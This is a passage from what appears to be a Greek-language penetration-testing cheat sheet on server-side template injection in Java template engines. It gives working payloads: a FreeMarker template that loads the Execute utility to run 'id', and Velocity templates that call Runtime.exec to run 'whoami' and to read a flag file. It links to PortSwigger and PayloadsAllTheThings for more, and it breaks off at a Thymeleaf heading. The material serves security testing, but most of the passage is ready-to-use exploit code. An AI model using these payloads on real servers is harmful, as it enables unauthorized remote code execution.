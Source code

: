 ⚠️ λειτουργεί μόνο σε εκδόσεις Freemarker κάτω από 2.3.30
```java
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```
**Περισσότερες πληροφορίες**

* Στην ενότητα FreeMarker του [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker)

### Velocity (Java)
```java
// I think this doesn't work
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end

// This should work?
#set($s="")
#set($stringClass=$s.getClass())
#set($runtime=$stringClass.forName("java.lang.Runtime").getRuntime())
#set($process=$runtime.exec("cat%20/flag563378e453.txt"))
#set($out=$process.getInputStream())
#set($null=$process.waitFor() )
#foreach($i+in+[1..$out.available()])
$out.read()
#end
```
**Περισσότερες πληροφορίες**

* Στην ενότητα Velocity του [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#velocity](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#velocity)

### Thymeleaf

Στο Thymeleaf, μια κοινή δοκιμή για ευπάθειες SSTI είναι η έκφραση `${7*7}`, η οποία ισχύει επίσης για αυτή την μηχανή προτύπων. Για πιθανή απομακρυσμένη εκτέλεση κώδικα, μπορούν να χρησιμοποιηθούν εκφράσεις όπως οι εξής:
